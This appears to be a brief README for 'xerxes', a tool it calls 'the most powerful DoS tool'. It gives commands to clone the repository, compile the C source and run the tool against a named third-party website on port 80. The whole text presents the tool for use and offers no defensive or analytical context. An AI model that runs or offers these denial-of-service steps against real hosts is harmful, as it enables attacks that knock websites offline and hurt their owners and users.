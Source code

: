 # xerxes
XERXES the most powerful DoS tool
git clone https://github.com/NasurHaxor/xerxes/
cd xerxes
gcc xerxes.c -o xerxes
USAGE : ./xerxes www.techchip.net 80
